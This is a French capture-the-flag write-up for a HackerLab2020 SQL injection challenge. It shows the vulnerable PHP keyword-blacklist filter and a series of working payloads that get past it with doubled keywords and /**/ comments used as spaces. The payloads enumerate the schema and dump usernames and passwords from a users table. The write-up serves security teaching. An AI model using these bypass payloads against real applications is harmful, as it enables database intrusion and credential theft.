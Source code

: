 # HackerLab2020 - Challenge 1

## Challenge
>COVID_INJECTION
Les listes noires, c'est pas la meilleure option contre les "covid_injection".
L'ANSSI l'a toujours répété aux développeurs. Blacklister les simples et doubles apostrophes ne >protège pas contre le "covid_injection".
Montre à ces développeurs qu'ils ont tort de ne pas suivre les directives.

## Solution
Primo, nous avons pris connaissance du code source de l'application mis à notre disposition
```php
<?php
if (isset($_GET['source'])) {
    die(highlight_file(__FILE__));
}

require("conf/vuln.conf.php");
error_reporting(0);

if (isset($_GET['q'])) {
    $covid_vaccine = array('union', 'select', 'or', 'from', 'where');
    foreach ($covid_vaccine as $banned) {
        $_GET['q'] = preg_replace('/' . $banned . '/i', '', $_GET['q']);
    }
    if (strpos($_GET['q'], " ") !== false) die("covid_injection détecté");
}

?>
```
Nous remarquons que pour réussir ce challenge, nous devons faire de telle sorte que les mots clés *union*, *select*, *or*, *from*, *where* et  l'espace _" "_ échapperont au control des fonctions *preg_replace* et *strpos*

Ainsi, nous avons effectué plusieurs requêtes SQL avant d'atteindre le but.

Premier payload: ```'OORROR(1=1)OORROR'a'='```

Rendu:
![Rendu](Images/First-payload.png)

Le rendu ne nous révèle aucun flag. On a agit donc autrement à travers les étapes ci-après:

* **Identification des colonnes vulnérables**

Payload: ```inspiv'/**/ununionion/**/all/**/seselectlect/**/1,2,3,4/**/#```

Rendu:
![Rendu](Images/vuln-columns.png)
On peut donc retenir que les colonnes 2, 3 et 4 sont vulnérables.

* **Identification de la version de SQL**

Payload: ```inspiv'/**/ununionion/**/all/**/seselectlect/**/1,222,version(),444/**/#```
Rendu:
![Rendu](Images/sql-version.png)
La version du SQL est donc _8.0.1-dmr_

* **Identification du nom de la base de données**

Payload: ```inspiv'/**/ununionion/**/all/**/seselectlect/**/1,222,version(),database()/**/#```
Rendu:
![Rendu](Images/database-name.png)
Nom de la base de données: covid_injection

* **Identification les tables de la base de données**

Payload: ```inspiv'/**/ununionion/**/all/**/seselectlect/**/1,2,group_concat(table_name),4/**/frfromom/**/infoorrmation_schema.tables/**/whwhereere/**/table_schema=database()/**/#```

Rendu;
![Rendu](Images/tables-name.png)
Nous découvrons par là une autre nouvelle table dont on n\'avait pas connaissance qu'est _users_

* **Identification des colonnes de la table _users_**

Payload: ```inspiv'/**/ununionion/**/all/**/seselectlect/**/1,2,group_concat(column_name),4/**/frfromom/**/infoorrmation_schema.columns/**/whwhereere/**/table_schema=database()/**/and/**/table_name='users'/**/#```

Rendu:
![Rendu](Images/column_name.png)
Nous pouvons remarquer qu'en dehors des colonnes de la table _hack_hackerlab_ , nous d'autres colonnes qui sont pour la table users.

* **Affichage du contenu de la table _users_**

Payload: ```inspiv'/**/ununionion/**/all/**/seselectlect/**/1,2,group_concat(id89l,passwoorrd,username),4/**/frfromom/**/users/**/#```
![Rendu](Images/flag.png)
Nous obtenons ainsi le flag

```FLAG: CTF_Y0uAreAwas0m3_b__t___es```

Cependant nous avons le début d'une clé publique. L'intégralité de la clé ne s'est pas affichéé à cause de la limite de la fonction _group_concat_. Alors nous sommes obligés de modifier notre requête.

Nouveau Payload: ```inspiv'/**/uniunionon/**/all/**/seleselectct/**/1,passwoORrd,222,username/**/frfromom/**/users/**/#```
![Rendu](Images/complete.png)
